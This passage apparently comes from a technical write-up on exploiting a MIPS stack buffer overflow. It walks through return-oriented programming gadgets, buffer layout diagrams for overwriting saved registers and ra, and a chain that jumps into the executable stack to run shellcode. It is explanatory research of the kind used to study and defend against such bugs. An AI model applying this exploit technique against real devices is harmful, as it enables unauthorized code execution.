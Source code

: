 Since a function call will use the value into ``ra`` to return back we need to
find a gadget that sets that register and jump via another register. This is
not difficult to find, I think a lot of function epilogues are similar to
the following:

```text
 move $t9, $s2 ; 
 lw $ra, 0x24($sp) ; 
 lw $s2, 0x20($sp) ; 
 lw $s1, 0x1c($sp) ; 
 lw $s0, 0x18($sp) ; 
 jr $t9 ; 
 addiu $sp, $sp, 0x28
```

this is equivalento to ``ra=0x24(sp), sp+=0x28, jmp $s2``.

The plus side is that we can reload the registers with other values just in case
is necessary. Also the stack is moved further up (fortunately we have space to spare).

The updated situation in our buffer is the following:

```text
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][ ????
                                                |                                              |
  sp points here at the beginning   ------------'      sp points here at the end   ------------'
```

Since the stack is executable I can act like it's 90s again and jump into it
to execute something; this gadget loads in ``v0`` the stack's address with an offset
and jump where the value of ``s0`` points to (also writes ``v0`` back in the stack
but fortunately at an offset that doesn't interfere with our stack juggling)

```text
 addiu $v0, $sp, 0x40 ; 
 ori $a1, $zero, 0x8912 ; 
 addiu $a2, $sp, 0x18 ; 
 move $t9, $s0 ; 
 jalr $t9 ; 
 sw $v0, 0x1c($sp)
```

and then, finally, we can jump to ``v0`` (i.e. inside the stack) with the simplest of all the gadgets:

```text
 jr $v0 ;
 nop 
```

The memory now looks something like this

```text
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.                                ,---- 0x40 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][ shellcode...
                                                                                               |
                                                                    sp points here ------------'
```

